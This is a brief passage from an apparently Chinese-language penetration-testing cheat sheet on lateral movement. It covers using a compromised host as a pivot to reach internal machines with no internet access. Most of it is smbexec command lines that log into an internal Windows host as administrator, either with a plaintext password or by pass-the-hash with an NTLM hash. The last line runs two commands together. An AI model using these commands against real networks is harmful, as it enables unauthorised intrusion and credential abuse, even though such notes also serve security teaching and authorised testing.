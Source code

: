 利用拿下的主机做跳板尝试拿下其他不出网主机

![](img/20.png)

#### smbexec

外部：(交互式)，和psexec一样

```bash
smbexec ./administrator:Abcd1234@192.168.91.178

smbexec god/administrator:Abcd1234@192.168.91.178

smbexec -hashes :c780c78872a102256e946b3ad238f661 ./administrator@192.168.91.178

smbexec -hashes :c780c78872a102256e946b3ad238f661 god/administrator@192.168.91.178smbexec -hashes god/administrator:c780c78872a102256e946b3ad238f661@192.168.91.178
```
